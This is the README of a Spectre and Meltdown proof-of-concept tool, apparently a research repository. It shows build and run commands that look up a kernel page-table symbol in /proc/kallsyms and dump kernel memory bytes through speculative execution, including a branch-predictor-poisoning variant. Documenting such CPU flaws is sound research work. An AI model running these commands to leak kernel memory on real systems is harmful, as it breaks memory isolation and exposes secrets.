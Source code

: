 Spectre and Meltdown Proof-of-Concept
=====================================

Read kernel addresses by stalling the pipeline and speculatively hitting a cacheline:

```
$ make
cc -o poc poc.c -O0 -lm 
$ grep init_top_pgt /proc/kallsyms 
ffffffffa2c09000 D init_top_pgt
$ ./poc ffffffffa2c09870  # skip some because it's mostly zeros
0xffffffffa2c09870 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0xffffffffa2c09880 | 67 20 21 b3 03 00 00 00 00 00 00 00 00 00 00 00 
0xffffffffa2c09890 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0xffffffffa2c098a0 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
...
```

Read kernel addresses by poisoning the branch predictor and speculatively hitting a cacheline:
```
make CLFAGS=-DPOISON
$ ./poc 0xffffffffa2c09880
0xffffffffa2c09880 | 67 20 21 b3 03 00 00 00 00 00 00 00 00 00 00 00 
...
```

Visualize memory read timings:
```
$ make CFLAGS=-DVISUALIZE
cc -o poc poc.c -DVISUALIZE -lm 
$ ./poc 0xffffffffa2c09883
```
